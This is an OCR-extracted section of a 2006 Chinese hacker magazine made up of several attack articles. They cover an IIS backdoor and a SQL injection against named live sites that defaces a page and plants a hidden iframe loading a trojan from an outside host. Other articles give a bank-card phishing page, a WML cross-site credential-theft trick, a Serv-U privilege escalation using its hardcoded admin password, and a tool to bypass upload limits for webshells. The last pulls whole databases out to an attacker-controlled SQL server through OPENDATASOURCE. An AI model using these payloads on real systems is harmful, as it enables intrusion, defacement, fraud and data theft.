InProcessIsapiApps : (LIST) "C:\WINDOWS\system32\inetsrv\httptext.dll" "C:\WINDOWS\system32\inetsrv\httppdbc.dll" "C:\WINDOWS\system32\inetsrv\ssinc.dll" "C:\WINDOWS\system32\msw3prt.dll" "C:\WINDOWS\Microsoft.NET\Framework\v1.1.4322\aspnet_isapi.dll" "C:\WINDOWS\system32\inetsrv\asp.dll"
```

这样就设置好了，以后无论什么ASP文件都是LocaISystem权限了。通过以上的步骤，我们的IIS后门就设置好了。你可以上传ASP木马加以辅助控制，这样的设置型后门是很难被管理员发现的，并且完全通过IIS的80端口通讯，又没有日志记录，所以相当安全。

关于Adsuil.vbs的一点简单应用结束了，突然发现文章已经写了好多，哇啊啊……文章难免有疏漏，还请大家多多指教。有什么疑问请和我联系。我的邮箱：wofeiwo@bugkidz.org。

www.hacker.com.cn
2006 精华奉献本 下册


BD

## SCRIPT ATTACK

》栏目编辑:脚本小子(scriptboy@hacker.com.cn)

脚本小子：橘子是个大型的游戏网站，前段时间听说曾被人入侵过，估计现在的安全性应该好些了吧？不过本文作者又一次发现了这个站上的新问题，同时在技术上又提出了一种Db_owner权限获得WebShell的新方法。不错的点子，鼓掌先！

适合读者:入侵爱好者、脚本程序员、网管
前置知识:脚本攻击基本方法

### 游戏橘子上的测试：

### Db_owner权限获得WebShell

文/图 llikz

在浏览台湾橘子站点http://www.gamania.com的时候，发现了这个地方可以注入http://fateasia.gamania.com/turtle/index.asp?sid=E00001,心中一陈窃喜。像这样的大站也能注入？于是抱着侥幸的心理拿出看家工具NBSI2走一走，猜解出如下信息，如图1所示。


权限是Db_owner 要想得到WebShell，首先想到的方法就是通过Db_owner备份数据库了，不过这种方法我在很多网站上都试过了，尤其是大型网站，数据库相当庞大的，这种方法成功率并不高。成功不成功试试再说，先用读注册表的方法得到Web物理路径，如图2所示。


具体方法以前黑防都有介绍，我就不再唠叨了。拿到路径后当然就是BackupWebShell了，如图3所示。
由于我没有看过臭要饭的工具是如何对INT型和字符型数据做判断的，所以在URL中参数中加了个“'”认为是对整型数据的注入，下面我们看看结果如何，如图4所示。
失败，看来常规的攻击是不会有


什么新突破的，还是另谋它法吧！
后来我仔细看了看这个页面，得到如下信息，如图5所示。
原来是和www.fateasia.com合作建的站，Ping一下这两个站

先，如图6所示。
看到没？是在一个服务器上站点哦！再打开这个站点看一下，如图7所示。
做得不错，网站也挺大的。在网站上溜了一圈，发现同样存在注入点的，更精彩的是这个站使用的数据库和http://fateasia.gamania.com是同一个数据库，如图8所示。
看来这个才是主站。看看咱们Backup的木马是不是在这个站上：http://www.fateasia.com/asp.asp
返回404错误，看来不行，郁闷。
此时忽然想到：既然不能直接得到WebShell，那我们有没有可能在不得 到Shell的前提下挂上网页木马或者是跨站攻击脚本呢？因为我们对这个站点的数据库已经有了操作权限，这在理论上是绝对可行的。不过这只是我的思路而已，还是亲手实践一下看看能不能成功吧。
首先要找到ASP中调用数据库的地方，一般动态变化的信息都是对数据库的调用。我们选择一个最明显的地方(具体选取的方法，靠平时大家的经验，一般经常更新的地方都会调用数据库里的信息)，如图9所示。


www.hacker.com.cn
2006精华奉献本 下册

## SCRIPT ATTACK

栏目编辑/脚本小子">scriptboy@hacker.com.cn

这个地方显示的红色文字应该就是调用的数据库里的信息。我们查看源代码，如图10所示。


图8

选中的字体大家看清楚了吗？由于我装了繁体字库，将选中的字体粘贴到一个本地网页文件夹打开，在“查看|编码”中选繁体中文，得到如下图11所示的信息。


图9


图10

好了，我们就在数据库中查找这个信息吧！由于数据库相当大，我花费了相当长的时间去查找，不过


图11

工夫不负有心人,终于在数据库中我把这条信息给揪了出来,如图12所示。


图12

在NB中显示的是乱码，把这段文字用IE打开看看，如图13所示。


图13

呵呵,和网页中显示的一模一样,看来就是这个地
方了,为了证实一下,我Update一下数据库里这个字段里
的内容,使用如下命令:

```
http://www.fateasia.com/fate.asp?sid=H00050;update runtext set runtext='Hacked by llikz (http://www.hacker.com.cn)';--
```

再刷新一下网页看看,如图14所示。


图14

看到了吗？我们已经成功更新了它的数据库里的信息了，如此简单的一句话就把这个网站的首页给改掉了，的确感到很有成就感吧？下面我们就要试着想数据库里注入恶意代码了，我选择了一个网页木马：

```
http://www.fateasia.com/fate.asp?sid=H00050;update runtext set runtext='testll</a><//font></marquee><iframe src=http://www.hacker.com.cn/muma.htm width=0 height=0 frameborder=0></iframe>';--
```

看看结果,如图15所示。


图15

成功了！再来看看源代码，如图16所示。
哈哈！的确把恶意脚本插入到了网页中了，攻击成功。无须得到WebShell，一个网页木马已经被植入到网页中了。

www.hacker.com.cn

2006精华本 下册

## SCRIPT ATTACK
栏目编辑:脚本小子|scriptboy@hacker.com.cn

```html
<script>alert('test');</script>
<!--"'<marquee><br>
<HTML>
<HEAD>
<TITLE>Untitled-1</TITLE>
</HEAD>
<BODY>
<!--<table width=750 border=0 cellpadding=0 cellspacing=0>
<TR>
<TD COLSPAN=3 height="9" background="images/run_3.gif">
<TD width="3" background="images/spacer.gif">
<TD width="56" valign="middle" background="images/run_2.gif">
<TD width="3" background="images/spacer.gif">
<TD width="116" valign="middle" background="images/run_1.gif">
<TR>
<TD class="service-1" height="25"><script>
<!--
document.write('<td width="133" class="service-2"><a href="http://www.hacker.com.cn" class="service-2">黑客基地</a></td>');
//-->
</script>
</TD>
</TR>
</table>
</td>
</tr>
<tr>
<td colspan=3></td>
</tr>
</table>
</td>
</tr>
```

图16

这里要提醒大家,在找到调用的地方后注入恶意代码时,要想让植入网页的脚本执行,一定要闭合前面的HTML标记,在以上我的注入代码中:

```
http://www.fateasia.com/fate.asp?sid=1100050';update runatext set runattext=test1</a></font></marquee><iframe src=http://www.hacker.com.cn/muma.htm width=0 height=0 frameborder=0></iframe>;--
```

其中的</a></font></marquee>就是为了闭合前面的这几个标记,让闭合后面的<iframe src=http://www.hacker.com.cn/muma.htm width=0 height=0 frameborder=0></iframe>可以被浏览器解释执行。大家在具体的使用中要灵活运用,对于注入的文字中含有单引号要使用两个单引号来代替。

我还要提醒大家,在利用这种方法的时候,一定要确保你的注入语句的正确性,要不非但不会成功,反而可能对数据库造成破坏,利用的时候要谨慎,切记。

说到这里,虽然这个方法在实现上已经没有什么问题了,但它还是有缺点的。第一,这种方法生成的网页木马隐蔽性不是很好,第二,在插入代码后,可能会引起网页显示格式的变化。这一点也是它最大的缺点。如果你有更好的隐藏代码而不改变显示布局的方法,一定要告诉我啊,给我QQ留言,共同探讨:66734111。

最后把文字给修改回去,不过插入的木马还留在里面,可惜,http://www.hacker.com.cn/muma.htm是个不存在的网页,再次跪求黑防的老编们给俺把马给装上,不枉俺把地址写到你们网站上,呵呵。


脚本小子:现在科技的进步日新月异,想必大家都试过用手机上网了吧?像网上购物、网上银行等以前只能在电脑上进行的操作今天都可以在手机上完成了。方便是真方便,但是这里面有没有风险呢?知道什么是三十六计中的偷梁换柱吗?本文就是一个例子:频更其阵,抽其劲旅,待其自败,而后乘之。曳其轮也。

适合读者:手机上网用户
前置知识:无

### 手机也玩WML跨站攻击

文/图 Lysosome

通常我们所说的跨站脚本都是描述HTML页面的,在科技日新月异的今天,手机可以像电脑一样正常浏览网页,可以通过网页来网上购物,管理银行账目等,但是在这个时候,安全隐患悄悄地出现了。

下面先来介绍一下一些相关的信息:我们所说的手机网页就是WML网页,它的结构基本与XML相似,因为WML的前身可以说是XML。WML这种网页的严谨性比我们用电脑上的HTML网页还要高。例如说HTML页面若有编写上的语法错误等,在IE或NETSCAPE等浏览器上还可以正常地解释修正,但在WML页面上如果有错误,它首先在手机上网的网关上就进行出错的处理,如一发现WML网页出错,网站那边就停止把取得的网页数据发送到用户的手机浏览器上。

废话少说进入正题。在HTML时代的跨站脚本中,JavaScript、VBScript、ActiveX、Flash是主流,但是在WML上这些东西根本不被手机网络所接受。也许学过WML网页设计的人都会知道或用过变量,因此如果想在WML页面中显示$符号时必须在其后面再跟一个$符号,这就是变量的效力了,就像在PHP上用变量一样,要想创建变量就在变量名前用"$"这个符号组合。如我想创建一个变量是"user"的,那么"$user"就可以了。这个变量在手机的浏览器会一直保存在内存中,直到浏览器关闭才消失,就算你到A的网站,这个本不属A站的变量在B站上也同样存在。

用手机登录论坛、聊天室一般都要通过手动输入用户与密码来登录,而我们输入过的字符串会被手机的浏览器记忆在内存中,在某个页面中有相同的变量引用它就会自动填充,如图1的手机模拟器所示。

### 什么是WML?

它是Wireless Markup Language(无线标识语言)的简称,是WAP规范的一部分,类似于编写网页HTML语言;它是XML基础上的标识语言,用于界定文字的格式、表现方式,屏幕的层次(deck),和页与页(card)之间的超链接。


图1

网址:http://www.hacker.com.cn
2006精华奉献本 下册 023


## SCRIPT ATTACK
> 栏目编辑(脚本小子) scriptboy@hacker.com.cn

图1中左边是我登录后由模拟器记录在内存上的页面变量，右边是我再次进入登录页面时浏览器自动帮我填充的。既然我登录的账号和密码都在内存中，要取出的条件就是像图1右边那样的条件才可以。下面我们看看那一个页面到底有什么代码会使记录在内存中的数据被读出来。代码如下2所示。

```html
<HTML>
<HEAD>
<TITLE>中国黑客-脚本攻击</TITLE>
<META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=gb2312">
</HEAD>
<body onload="window.open('read.asp','','width=1,height=1,left=10,top=10,status=no,resizable=1,scrollbars=no,toolbar=no,location=no,menubar=no,width=1,height=1')">
<center><br><br>
<font size=2>最近很多朋友都中了一种病毒，该病毒会把你所有在网页中输入的密码全部记录下来发送到某一个邮箱，为了
<b>安全</b>起见，请在这里输入你的网上银行卡卡号和密码：<br><br>
卡号：<INPUT type="text" id="cardid" name="cardid"><br><br>
密码：<INPUT type="password" id="pwd" name="pwd"><br><br>
<INPUT type="button" id="btn" name="btn" value="提交">
</font>
</center>
</body>
</HTML>
```

图2

注意图2中的两行：

```html
ID:<input name="login_id" value="" format="*N" maxlength="10" type="text" />
密码:<input name="login_pwd" value="" format="*N" maxlength="10" type="password" />
```

就是那个“login_id”的字符串使在内存中的“login_id”数据被读了出来，就像在HTML中的Document.cookie读取Cookies来获得内存中的数据。道理就这样简单，关键是如何突破来引用它。

在这个时候我们应想到运用变量，因为只有变量才可以与内存打交道。如要读出变量“login_id”的数据，那么就要用到“$login_id”这个字符串来读取。例如写一个页面，其中包括字符串“$login_id”（这个字符串要和想读取的变量名一致），之后当用户从登录页面来到我们专门设计的这个页面时，这个页面就可以读出变量的数据。但是用户怎样才能无缘无故地进入我们设计的页面呢？这个问题在HTML上也许是比较头疼的问题，但是在WML上就不那么难了，例如在提交的数据中包含一个合法的语句（在聊天室、BBS或留言本中）：

```html

```

当这个语句被保存后出现在WML页面中就能正确被手机浏览器解析，通过插入图片的方法把参数传递到主机“Host”的“get.asp”文件，然后由这些文件进行接收的数据处理。这就像以前HTML的跨站脚本，而那个“get.asp”的写法像以前的HTML跨站脚本一样就行了。

也许我们在浏览某个网页时入了陷阱也不知道，其实对付这个问题可以在接收数据的程序中把“<,>,$”等符号转换，其次就是已用的变量应清空，清空的方法就是其它页面中插入如下的WML语句

```html
<setvar name="$NAME" value="$noValue"/>
```

“name”是写变量的名，“value”就是要写入的变量的数据，清空的可以填空或填其他的值，这样就能防范WML的跨站攻击了。

适合读者：脚本爱好者、入侵爱好者、网管
前置知识：无

### Serv-U 6.0提权漏洞

文 / 朱文刚

前几天，朋友买了一个收费的主页空间，把FTP账号和密码给了我，让我看看安全性如何。老规矩，先用X-Scan扫描，只开了80,21端口，用的是IIS 5.0 和 Serv-U 6.0，用FTP传个ASP木马上传，FSO开着，可是C、D、E、F没有权限，看都看不了。看来这个管理员是安全意识不错，在网站根目录传个自制木马上去，成功保存在d:\web\wwwroot\webss\muma.exe，可惜执行失败，在ASP木马上看了，原来是关了Wscript.shell权限。

看来别的地方是动不了了，只好试试Serv-U 6.0提升权限了，问题也来了。臭要饭的写的提升权限程序只能在本地提升权限，而我在服务器上有没执行权，传上去也没有用，看来此路不通。

在服务器上转了几圈，没有发现什么可以利用漏洞，看来还是要靠Serv-U，在硬盘里找了找，远程溢出的程序全失败了……突然，我想到Serv-U 6.0本地提权的本质是在本地连43958端口，那我是不是可以在WebShell里用MSWinsock.Winsock连接呢？只要用账户“localadministrator”，密码“#l@$ak#.lk;0@P”就可以连上去了吧？于是我上网找了找，可惜没有发现这种代码，只好自己写了：

```vb
dim revdata
dim senddata
set sock=createobject("MSWinsock.Winsock")
sock.Protocol=0 '（用TCP）
sock.Connect "127.0.0.1",43958
senddata="LocalAdministrator" & chr(10) & chr(13)
sock.senddata senddata
senddata="#l@$ak#.lk;0@P" & chr(10) & chr(13)
sock.senddata senddata
```

使用这个代码就能连上FTP了，接下来用Sock.senddata senddata发送添加有执行权限用户的命令，然后想必大家也知道了，用有执行权限的用户连上，再用“SITE EXEC”执行命令，好了，木马启动了，有系统权限了。

其实，有时候，管理员一个小小的疏忽，就可以导致整个服务器被攻破，可见，安全是一个整体的重要性，这个看似坚固的服务器就这样一来破了。

修补的方法就是改掉localadministrator的密码。

## SCRIPT ATTACK
> 栏目编辑:脚本小子|scriptboy@hacker.com.cn

脚本小子：ASP注入漏洞在国内可谓是火得不能再火了,很大站被它搞过。绝大多数朋友都是利用工具,或者通过手工在后面加上“AND 1=1”和“AND 1=2”,再根据返回的页面内容来判断是否存在注入漏洞的,但是另外的注入方法却被我们忽略了。

适合读者：入侵爱好者、网管
前置知识：无

### 挖掘幽灵漏洞之搜索型注入 成功入侵韩国电子公司

文/图 仇新刚 勇哥儿

大家都知道,注入方式主要有数字型和字符型,但新手们常常忽略搜索型,因为搜索型在判断是否存在漏洞时要在搜索文本框中输入内容,然后再根据返回的页面内容来判断,比较烦琐,虽然NBSI2带有这种注入方式,但在打开页面的时候参数中一般是不带有搜索的参数的,怎么办呢?我的办法是手工改造它,然后再用NBSI2帮忙。

先给大家讲点前置知识,假如你只打算取出name记录,而且这些记录的名字必须以字母w打头,那么你就要用到下面的WHERE子句了:

```sql
SELECT name FROM Admin WHERE name LIKE 'w%'
```

如果想取出名字中包含字母w的,那么就要用到下面的WHERE子句

```sql
SELECT name FROM Admin WHERE name LIKE '%w%'
```

如果想取出名字共3个字符,第1个字母是w,第3个字母是f的记录,那么你就要用到下面的WHERE子句

```sql
SELECT name FROM Admin WHERE name LIKE 'w_f'
（wf也在其中,嘿）
```

百分比符号(%)的含义类似于DOS中的通配符“*”,代表多个字符;下划线符号(_)的含义类似于DOS中的通配符“?”,代表任意一个字符。

大家可能经常看到在搜索时让我们选择是完全匹配还是部分匹配,如果是完全匹配则语句如下:

```sql
SELECT name FROM Admin WHERE name LIKE '$keyword'
```

其中变量keyword表示我们在查询框中要输入的内容。如果是部分匹配:

```sql
SELECT name FROM Admin WHERE name LIKE '%$keyword%'
```

如果这个变量keyword没有过滤我们就可以构造下面的语句。

1. 完全匹配。如果我们输入“wtf' and '1'='1”就变成了如下语句:

```sql
SELECT name FROM Admin WHERE name LIKE 'wtf' and '1'='1'
```

如果我们输入“wtf' and '1'='2”就变成了如下语句:

```sql
SELECT name FROM Admin WHERE name LIKE 'wtf' and '1'='2'
```

2. 部分匹配。如果我们输入wtf%' and 1=1 and '%'='就变成了如下语句:

```sql
SELECT name FROM Admin WHERE name LIKE '%wtf%' and 1=1 and '%'='%'
```

如果我们输入wtf%' and 1=2 and '%'='就变成了如下语句:

```sql
SELECT name FROM Admin WHERE name LIKE '%wtf%' and 1=2 and '%'='%'
```

根据返回的页面内容是否相同就可以判断是否存在注入漏洞。

好,基本的东西介绍完了,我们来看看如何利用它!本文的目标是一个著名的韩国跨国电子公司,虽然它的程序是ASP.NET的,但却忽略了查询框的变量过滤,大家对比一下图1与图2就可以看出区别来。

如果在查询的文本框中不输入内容的话,查询的参数SC为空,这样利用NBSI2是扫描不出来的。根据图1和图2我们可以看出存在注入漏洞,这样我们构造一下注入地址:

```
http://notebook.***.com.cn/news/news.aspx?page=1&type=***&ST=title&SC=科技
```


特征码输入我们在图1中看到的2004,图3为NBSI2的注入分析结果。

很快就猜出了后台的用户名和密码,密码是明文的,字母特殊字符都有。进后台一看看上传图片功能……不玩了,后续的东西没有什么好说的了,闪人。


www.hacker.com.cn
2006精华奉献本 下册

脚本小子：在Windows 2003的IIS 6.0中,默认设置会限制上传文件的大小,这会为我们获得目标主机的WebShell带来很大的麻烦,很多朋友都遇到这样的问题而无法再继续下去。怎么解决呢？一起来看看吧！

适合读者：脚本程序员,入侵爱好者,网络管理员
前置知识：ASP代码阅读能力

### 突破IIS 6.0上传限制 ASP文件合并器

文 / koshan

一天晚上,刚刚打开QQ,就看到小企鹅图标不断闪动,原来是一个迷上脚本攻击的学生发来的求救消息“获得了一个WebShell,但是服务器可能在IIS里限制了上传文件大小,cmd.exe就是传不上去,小一点的文件都可以传;是什么原因啊？”。没有哪个网管会BT到在IIS中把文件上传大小限制得连289KB的cmd.exe也传不上去的,肯定是IIS6.0的默认设置。于是我就回了一句：“是IIS 6.0的默认设置引起的。”,“那有什么好的解决办法吗？”学生还不死心。因为自己急着要测试一个软件,想也没想就回复：“拆分、合并啊！”,这下子惹麻烦了,当学生继续询问：“拆分我会,但是如何合并？”时我才想起,cmd.exe都无法上传,怎么执行copy /b命令呢？幸好自己脑子转弯比较快,ASP中的Adodb.Stream对象不是可以操作二进制文件的吗？那肯定可以实现文件合并的功能的。于是回复：“呵呵,用ASP代码实现吧！”

可惜该学生很不争气,几天后还是把我缠住,说什么网上找不到能够实现文件合并的ASP程序,说连新出的海洋6.0也没有这样的功能,甚至激我说老师吹牛……亏我还教过他ASP呢,一点不懂自己动手,丰衣足食的DIY精神,只会利用现成的工具怎么可能成为高手呢？为了不让自己的弟子失望,挽回教师的一丝尊严,于是我花了一个小时写了这个ASP文件合并器,测试了一下,效果还挺好,配合海洋之类的木马,很好地解决了IIS 6.0无法上传大于200KB以上文件的限制。

#### 编程原理

ASP中的Adodb.Stream组件可以操作二进制文件,程序使用了该组件的几个重要的方法。

- 1. LoadFromFile方法
使用方法 Object.LoadFromFile (FileName)。
说明 将FileName指定的文件装入对象中,参数FileName为指定的文件名。
- 2. Read方法
使用方法 Object.Read (Numbytes)。
说明:读取指定长度的二进制内容。
参数说明 Numbytes指定的要读取的弧度,不指定,则读取全部。
- 3. Write方法
使用方法 Object.Write (Buffer)。
说明:将指定的数据装入对象中。
- 4. SaveToFile方法
使用方法 Object.SaveToFile (FileName,[Options])。
说明 将对象的内容写到FileName指定的文件中。

#### 核心代码

为了方便调用,我写了一个子过程。

```vb
sub hb (Filename,newname)
    ' Filename为要合并的文件名,用"|"隔开,newname为要生成的新文件。
    Filename=split (Filename,"|")
    i=ubound (Filename)
    redim fname (i),fstr (i)

    set fso = Server.CreateObject ("Scripting.FileSystemObject")
    for n=0 to i
        fname (n) = server.MapPath (Filename (n))
        if not fso.FileExists (fname (n)) then call back ("文件"&name (n) &"找不到!")
    next
    set fso=nothing
    '这里使用Scripting.FileSystemObject对象是为了判断文件是否存在。一个成形的代码总应该有防死、纠错的功能。
    newname = server.MapPath (newname)

    for n=0 to i
        set dr=CreateObject ("Adodb.Stream")
        dr.Mode=3
        dr.Type=1
        dr.Open
        dr.LoadFromFile (fname (n))
        fstr (n) =dr.read
        dr.close
    next
    '将爱合并的文件内容读到fstr数组中。

    set dr=CreateObject ("Adodb.Stream")
    dr.Mode=3
    dr.Type=1
    dr.Open
    for n=0 to i
        dr.write=fstr (n)
    next
    dr.SaveToFile newname,2
    '生成新文件。
    dr.Close
    set dr=nothing
    response.write "新文件"&newname&"成功生成! "
end sub
```

### 黑防论剑

SCRIPT ATTACK
栏目编辑/脚本小子/scriptboy@hacker.com.cn

这个代码除了在入侵IIS6.0时会派上用场，在其他限制上传文件大小的主机中也能用。

把写好的代码给学生，再认真做一番思想教育，不能用来做坏事等云云，学生学点脚本安全知识也不是坏事。本来还想用VBS写一个VBS文件切割机，想想还是算了，这样的工具网上已经够多了，不能浪费时间。也许有人会怪我为什么不整合了文件上传功能，我想当大家需要用到这个程序的时候，一定已经获取了WebShell，我又何必多此一举呢？

学习黑客技术最大的乐趣莫过于自己编写小工具，我自己也就因为这次的事才发现其实ASP功能挺强的，关键在于自己会不会去深入挖掘。


### 现代NBSI2.0 Opendatasource And Openrowset

文/图 LCX

目前网络上的SQL Injection工具很多，最受推崇的当属NBSI2了。SQL Injection的方法在网上也是满天飞，大家认真学一下都会很快成为脚本入侵“高手”。可是无论是工具，还是众多方法，猜SQL数据的时候原理不外乎两种：一个是对方的Web服务器在没有关闭错误提示的时候，让SQL出错来暴出想要的信息；一个是在对方的Web服务器关闭错误提示的时候，采用ASCII码拆半法分析。当关闭错误提示的时候，猜数据会很慢，遇到网速蜗牛的时候真是急死人，NBSI 2此时还经常会出现“猜解错误，是否要重试”的警告对话框，真是麻烦。不过有了Opendatasource和Openrowset这两个函数，一切问题都应刃而解了。

在SQL联机丛书的解释中，对没有定义为链接服务器名称的OLE DB数据源执行不常用查询时，使用特殊名称。在SQL Server 2000中，Openrowset和Opendatasource函数提供了连接信息，借以从OLE DB数据源访问数据。Openrowset和Opendatasource只应在引用不常访问的OLE DB数据源时使用。对于需要经常访问的数据源，应定义链接服务器。无论Opendatasource还是Openrowset都不能提供链接服务器定义的全部功能，包括安全管理和查询目录信息的能力。每次调用这些函数时，都必须提供所有的连接信息（包括密码）。简单来讲，这两个宏也就是不依靠链接服务器来进行分布式查询。

因为用Openrowset函数来直接获取注入数据库信息的工具已经有了，我就不做详细地讲解了，在文尾我会介绍此工具的简单用法，我这里着重来介绍一下Opendatasource的使用。联机丛书对Opendatasource宏的用法示例格式如下：

```sql
SELECT *
FROM Opendatasource(
'SQLOLEDB',
'Data Source=ServerName;User ID=MyUID;Password=MyPass'
).Northwind.dbo.Categories
```

我们完全可以用此语句获得数据库的库名、表名、列名、字段值的所有信息——如果你还是不明白，那就来看我“表演”。

我在192.168.8.10这台服务器上构建了一个测试环境，写了一个有漏洞的ASP代码。两段代码中的e.asp代码如下：

```html
<form action=f.asp method=get>
帐号:<br>
密码<input type=text size=100 name=password>
<input type=submit value=submit>
</form>
```

效果如图1 所示。


f.asp代码如下

```asp
<%
strSQLServerName = "127.0.0.1"
strSQLDBUserName = "sa"
strSQLDBPassword = "lcx"
strSQLDBName = "bbsuser"
Set conn = Server.CreateObject("ADODB.Connection")
strCon = "Provider=SQLOLEDB.1;Persist Security Info=False;Server=" & strSQLServerName & ";User ID=" & strSQLDBUserName & ";Password=" & strSQLDBPassword & ";Database=" & strSQLDBName & ";"
conn.open strCon
sql2="select * from bbsuser where username='admin' and password='"&request("password")&"'"
set rs2=conn.execute(sql2)
%>
<br>
<%= " 执行的 SQL 语句是 "&sql2%>
<%
rs2.close
set rs2=nothing
```

www.hacker.com.cn
2006 精华奉献本 下册 257


## SCRIPT ATTACK

栏目编辑:脚本小子/scriptboy@hacker.com.cn

```
conn.close
set conn=nothing
%>
```

当在图1的文本框提交“1’ and db_name()>0”的时候，效果如图2所示。


我又在另一台服务器192.168.8.20装了一个SQL Server，sa的密码是lcx，因为Opendatasource宏走的是TCP协议，所以你要保证192.168.8.20的1433端口一定要被192.168.8.10访问到。OK，测试环境构建完毕，下面一起来看如何入侵。

> 小提示：SQL Server SP2版本如果默认装在Windows XP SP2下的话，1433端口是不会被外界访问到的，这一点需要注意，建议打上SP3补丁。

### 第一步：得到当前所有库名

我们先在192.168.8.20上建库名和表名，如果你在企业管理器图形界面下安装我也不反对，我是直接用查询分析器写的语句：

```
create database lcx
CREATE TABLE ku(name nvarchar(256) null);
CREATE TABLE biao(id int NULL,name nvarchar(256) null);
```

这样我们就建好了一个库lcx，有两个表分别是ku和biao。Ku这个表存放了一个列名是name，类型是nvarchar(256)，biao这个表存放了两个列名，分别是int型的id和nvarchar(256)型的name列名。这里的库名、表名、列名的名字都是随便定的，你只要保证类型对就可以了。

我们先来温习一下得到所有库名的SQL语句，代码是”select name from master.dbo.sysdatabases”。如果你现在还不懂这句代码的话，可要恶补一下了。我们用一条语句得到192.168.8.10服务器上的所有数据库名。

```
insert into opendatasource('sqloledb','server=192.168.8.20;uid=sa;pwd=lcx;database=lcx').lcx.dbo.biao select name from master.dbo.sysdatabases--
```

在我们的测试环境上就是

```
http://192.168.8.10/web/f.asp?password=1'insert into opendatasource('sqloledb','server=192.168.8.20;uid=sa;pwd=lcx;database=lcx').lcx.dbo.ku select name from master.dbo.sysdatabases--
```

效果如图3所示。


此时你跑去192.168.8.20的SQL上看一下KU这个表，你会惊奇发现对方所有的库名已经整齐地排好了，如图4所示。


说到这里很多人可能又要担心权限问题了，我可以负责任地告诉你，在Public权限下也是可以使用Opendatasource这个宏的。

得到所有的库了，你怎么才能知道那个是当前库呢？哈，你把语句换一下不就得了？改成如下的样子：

```
insert into opendatasource('sqloledb','server=192.168.8.20;uid=sa;pwd=lcx;database=lcx').lcx.dbo.ku select db_name()--
```

可以了吗？在图4中，bbuser是我们注入的当前库，我们来获得当前库的所有表名。

### 第二步：得到当前库的所有表名

语句为：

```
insert into opendatasource('sqloledb','server=192.168.8.20;uid=sa;pwd=lcx;database=lcx').lcx.dbo.biao select [id],[name] from sysobjects where xtype='U'--
```

这个语句省略了当前库名，得到的就是当前库的所有表名。你也可以把语句换成

```
insert into opendatasource('sqloledb','server=192.168.8.20;uid=sa;pwd=lcx;database=lcx').lcx.dbo.biao select [id],[name] from bbuser.dbo.sysobjects where xtype='U'--
```

我们来做下测试，语句效果如图5所示。


此时，我们再跑到192.168.8.20去看lcx.dbo.biao这里的数据，你会看到什么？如图6所示。


是不是我们已经获取了当前库的所有表名呢？好学的你肯定又要问了，那么我如何获得其他库的所有表名呢？很简单，基本语句格式如下：

```
insert into opendatasource('sqloledb','server=192.168.8.20;uid=sa;pwd=lcx;database=lcx').lcx.dbo.biao select [id],[name] from 库名.dbo.sysobjects where xtype='U'--
```

www.hacker.com.cn
2006 精华奉献本 下册

### 第三步：获取列名

这里的库名我们在第一步里已经猜出来了。在图6中有没有看到我们获得的第一个列名是bbsuser,其ID值是357576312？有了这两条信息,我们来获取列名吧。在获取列名之前,我们要在192.168.8.20上先做一步工作,复制一个系统表结构。在我先前建好的lcx库中执行语句：

```
select * into [tmpcolumns] from [syscolumns] where 1=2
```

这样会把系统表syscolumns的结构复制给[tmpcolumns]。做法示例如图7所示。


我们来获取bbsuser这个表的所有列名,因为ID值是357576312,所以我们的语句是：

```
insert into opendatasource('sqloledb','server=192.168.8.20;uid=sa; pwd=lcx;database=lcx').lcx.dbo.tmpcolumns select * from syscolumns where id=357576312--
```

注入效果如图8所示。


再回到192.168.8.20上看一下lcx.dbo.tmpcolum这个表里边是什么内容,如图9所示。


看到了吧？得到了bbsuser的所有列名,还有列名的一些其他信息。这里的其他信息也是有用的,给我们下一步获得字段值的工作做好了准备。这里我只解释图10中的两个列名的意思。其中length是你获取的列名的长度,xtype是你获取的列名的类型。也许你要问了,为什么获取的类型怎么都是56、175这样的数字呢？我查了一些资料,找到了数字与类型对应的关系。关系表如下：

| 数字 | 类型 |
|---|---|
| 34 | image |
| 35 | text |
| 52 | smallint |
| 56 | int |
| 61 | datetime |
| 62 | float |
| 108 | numeric |
| 167 | varchar |
| 175 | char |
| 231 | nvarchar |

### 第四步：获取字段值

有了注入数据库当前库名、表名、列名所有信息后,我们就可以获取这段值了。我们先在192.168.8.20上根据在图10中获得的信息在lcx这个库中建一个新表bbsuser。列名分别是id(int类型长度是4)、username(char类型长度是10)、password(char类型长度是10)。如果你不明白这步,你仔细看一下图10和那个数字与类型的对照表。我在192.168.8.20的企业管理器上已经建好了,如图10所示。


获取注入数据库当前库所有信息的工作要一步到位,注入语句如下：

```
insert into opendatasource('sqloledb','server=192.168.8.20;uid=sa; pwd=lcx;database=lcx').lcx.dbo.bbsuser select * from [bbsuser] --
```

在注入点上执行就是：

```
http://192.168.8.10/web/f.asp?password=1'insert into opendatasource('sqloledb','server=192.168.8.20;uid=sa;pwd=lcx; database=lcx').lcx.dbo.bbsuser select * from [bbsuser] --
```

示例如图11所示。


我们来看一下最终究竟有没有成功？到192.168.8.20上的lcx.dbo.bbsuser上去抓个图,自然是成功了,如图12所示。


> 小提示：当在获取字段值的时候,建的表名、列名不一定要与注入库的完全一样,只要类型相符就可以了。

这样我们一步一步地把注入点的当前库的所有信息全部搬到本地来了。可能你说我的方法虽然不错,但毕竟没有用工具“爽”。目前我还没有见到用Opendatasource来获取注入信息的工具,倒是用Openrowset来获取注入信息的工具我已经找到了。下边我就来简单介绍一下它的用法。

## KK脚本攻击

工具是老外写的，名字是DataThiefV1.0.exe，软件运行界面如图13所示。


像我要注入http://192.168.8.10/web/f.asp?password=1的话，构建的环境如图14所示。


小提示：如果你注入的地址是字符型的，在URL地址里要写http://192.168.8.10/web/f.asp?password=1; <***>这样的格式，要带单引号。如果是数字型的话，就要写成了http://192.168.8.10/web/f.asp?password=1; <***>，去掉单引号。

点GO，获取信息的速度真是飞快呀，估计和我在内网测试有关，呵呵。如图15所示。


如果你对Openrowset这个宏不了解的话，你自己抓包分析吧，我就不再罗嗦了。最后希望这篇文章能让大家多一种思路，在这篇文章的基础上来进一步探索Opendatasource和Openrowset的用法。

适合读者：入侵爱好者、脚本程序员、网管
前置知识：脚本基础

### 简单分析B8事件

文 / Lich

对于B8事件，我有点话想说，水平有限，还望大家多多指教。
B8事件主要就是那个B搜索引擎依靠自己巨大的访问量使B的访问者在不知情的情况下访问了B站，从而塞满B的带宽（脚本小子：你写总结哪？），暴汗！总之就是无数网民从B搜索引擎获得信息时不知不觉地访问了B。对于B这样的被攻击者或者说受害者（是否无辜不详）除了被动式的防御（原文中作者的方法很好，也很详细），我觉得可以试着在主页中加入如下一段代码：

```html
<script> if (self!=top){top.location=self.location;}</script>
```

